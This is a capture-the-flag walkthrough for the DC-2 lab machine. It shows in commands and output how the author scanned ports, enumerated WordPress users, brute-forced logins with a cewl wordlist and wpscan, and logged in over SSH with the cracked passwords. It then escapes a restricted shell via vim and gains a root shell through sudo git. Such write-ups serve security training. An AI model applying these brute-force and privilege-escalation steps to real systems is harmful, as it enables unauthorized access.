 # DC 2

***

IP=192.168.240.194

## NMAP

| PORT     | STATE | SERVICE    |
| -------- | ----- | ---------- |
| 80/tcp   | open  | http       |
| 7744/tcp | open  | raqmon-pdu |

```perl
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
```

### /etc/hosts

```txt
192.168.240.194 dc-2
```

## 80

```perl
whatweb http://dc-2
http://dc-2/ [200 OK] Apache[2.4.10], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.10 (Debian)], IP[192.168.240.194], JQuery[1.12.4], MetaGenerator[WordPress 4.7.10], PoweredBy[WordPress], Script[text/javascript], Title[DC-2 &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.7.10]
```

### wordpress

```txt
admin
jerry
tom
```



<figure><img src="../../.gitbook/assets/Pasted image 20231023190517.png" alt=""><figcaption></figcaption></figure>

_cewl_ is a Ruby-based web crawler that is used for scraping words from websites to create custom wordlists. It is commonly used in cybersecurity and penetration testing contexts to generate wordlists for password cracking and other security testing purposes.

The name "cewl" stands for "_Custom Word List generator_." When used in the context of your previous message ("maybe you just need to be cewl"), it likely implies that you need to think creatively and generate a custom wordlist or use unconventional passwords or phrases to solve the challenge.

```bash
cewl http://dc-2 -w /tmp/wordlist.txt
```

```bash
wpscan --url http://dc-2/ -P /tmp/wordlist.txt -t 50
```

\[!] Valid Combinations Found: | Username: jerry, Password: adipiscing | Username: tom, Password: parturient

## 7744 - ssh

```bash
ssh tom@$IP -p 7744
parturient
```

### restricted bash

```bash
echo $PATH
/home/tom/usr/bin

ls -la /home/tom/usr/bin
```



<figure><img src="../../.gitbook/assets/Pasted image 20231023193507.png" alt=""><figcaption></figcaption></figure>

https://0xffsec.com/handbook/shells/restricted-shells/

#### vim

```bash
:set shell=/bin/bash
:shell
```

```bash
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/bash:$SHELL
```

### sudoers

```bash
su jerry
sudo git -p help config
!/bin/sh
```
